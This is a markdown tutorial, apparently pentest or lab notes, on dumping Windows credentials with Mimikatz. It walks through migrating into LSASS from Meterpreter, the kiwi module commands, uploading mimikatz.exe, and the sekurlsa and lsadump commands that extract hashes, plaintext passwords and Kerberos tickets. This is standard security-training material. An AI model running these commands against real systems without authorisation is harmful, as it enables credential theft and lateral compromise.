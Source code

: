 # Dumping Hashes with Mimikatz

Mimikatz is a post-exploitation tool used to extract plaintext credentials, hashes, PINs, and Kerberos tickets from memory.  
It is extremely powerful for **credential dumping** and **privilege escalation**.  

---

## Step 1: Reconnaissance & Migration
```bash
> getuid              # Check current user context
> pgrep lsass         # Find PID of LSASS (Local Security Authority Subsystem Service)
> migrate <pid>       # Migrate into LSASS to gain access to authentication material
> sysinfo             # Confirm system information
```
### Why LSASS?
+ LSASS stores credentials in memory (NTLM hashes, Kerberos tickets, etc.).
+ By migrating into LSASS, we can interact with sensitive processes securely.

### Use Built-in Meterpreter Modules
```bash
> load kiwi
> creds_all           # Dump all available credentials
> wdigest             # Dumps plaintext passwords (if WDigest enabled)
> lsa_dump_sam        # Extracts NTLM password hashes
> lsa_dump_secrets    # Extracts LSA secrets, including SYSKEY
```
+ SYSKEY → Encryption key used to protect the SAM database. It’s essential for boot security, but once extracted, can help attackers decrypt SAM data offline.

## Upload & Run Mimikatz Binary

> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
> shell
>> .\mimikatz.exe



## Core Mimikatz Commands

### 1. `privilege::debug`

* **What it does**: Grants the current process the `SeDebugPrivilege` which allows it to debug and manipulate other processes (like LSASS).
* **Syntax**:

  ```mimikatz
  privilege::debug
  ```
* **Alternatives**:

  * Run Mimikatz as Administrator (privileges are already elevated).
  * Use `!+` in Mimikatz to enable all privileges.

---

### 2. `sekurlsa::logonpasswords`

* **What it does**: Dumps login sessions from memory, showing usernames, domains, NTLM hashes, and sometimes plaintext passwords.
* **Syntax**:

  ```mimikatz
  sekurlsa::logonpasswords
  ```
* **Alternatives**:

  * `sekurlsa::wdigest` → Dumps WDigest credentials.
  * `sekurlsa::kerberos` → Extract Kerberos tickets.
  * `sekurlsa::msv` → Dumps NTLM credentials specifically.

---

### 3. `lsadump::sam`

* **What it does**: Dumps password hashes from the **SAM (Security Accounts Manager) database**.
* **Syntax**:

  ```mimikatz
  lsadump::sam
  ```
* **Alternatives**:

  * `lsadump::secrets` → Dumps stored LSA secrets.
  * `lsadump::cache` → Extract cached domain credentials.

---

## Creative Context

Think of LSASS as the **vault of secrets** in Windows. Migrating into LSASS is like sneaking into the control room.
Mimikatz gives you the master keys:

* `privilege::debug` → Break into the control room.
* `sekurlsa::logonpasswords` → Peek at everyone’s login cards.
* `lsadump::sam` → Duplicate the master keychain of the system.

---



